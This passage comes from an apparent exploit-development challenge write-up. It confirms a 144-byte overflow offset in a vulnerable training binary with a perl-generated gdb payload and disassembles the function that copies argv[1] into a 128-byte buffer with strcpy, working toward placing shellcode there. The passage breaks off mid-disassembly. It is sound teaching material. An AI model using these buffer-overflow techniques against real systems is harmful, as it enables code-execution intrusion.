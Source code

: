 
## The offset

As we found out in the previous challenge, the offset, or number of bytes
the SIP is located after the start of the buffer, is `144`. 

Lets verify this again:

```sh
~/challenges/challenge11$ gdb -q challenge11
Reading symbols from challenge11...

(gdb) r `perl -e 'print "A" x 144 . "BBBB"'` password
Starting program: /root/challenges/challenge11/challenge11 `perl -e 'print "A" x 144 . "BBBB"'` password
isAdmin: 0x41414141
You are admin!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

With an input string of A x 144 + BBBB, the program crashes at memory location 0x42424242 - which is
"BBBB", and exactly what we want. 


## Find buffer base address

We need to find the address of the buffer where our shellcode is stored in the process we are debugging.
This buffer transferred via `argv[1]` into `char name[128]` in the function `handleData()`. 

Therefore we can just break at the end of `handleData()`, and print the address
of the `name` variable:

Check disassembly of handleData:
```sh
(gdb) disas handleData
Dump of assembler code for function handleData:
   0x08049211 <+0>:     push   ebp
   0x08049212 <+1>:     mov    ebp,esp
   0x08049214 <+3>:     sub    esp,0x98
   0x0804921a <+9>:     mov    DWORD PTR [ebp-0xc],0x0
   0x08049221 <+16>:    sub    esp,0xc
   0x08049224 <+19>:    push   DWORD PTR [ebp+0xc]
   0x08049227 <+22>:    call   0x80491b2 <checkPassword>
   0x0804922c <+27>:    add    esp,0x10
   0x0804922f <+30>:    mov    DWORD PTR [ebp-0xc],eax
   0x08049232 <+33>:    sub    esp,0x8
   0x08049235 <+36>:    push   DWORD PTR [ebp+0x8]
   0x08049238 <+39>:    lea    eax,[ebp-0x8c]
   0x0804923e <+45>:    push   eax
   0x0804923f <+46>:    call   0x8049050 <strcpy@plt>
   0x08049244 <+51>:    add    esp,0x10
   0x08049247 <+54>:    sub    esp,0x8
   0x0804924a <+57>:    push   DWORD PTR [ebp-0xc]
   0x0804924d <+60>:    push   0x804a08e
   0x08049252 <+65>:    call   0x8049040 <printf@plt>
   0x08049257 <+70>:    add    esp,0x10
   0x0804925a <+73>:    cmp    DWORD PTR [ebp-0xc],0x0
   0x0804925e <+77>:    jle    0x8049272 <handleData+97>
   0x08049260 <+79>:    sub    esp,0xc
   0x08049263 <+82>:    push   0x804a09d
   0x08049268 <+87>:    call   0x8049060 <puts@plt>
   0x0804926d <+92>:    add    esp,0x10
```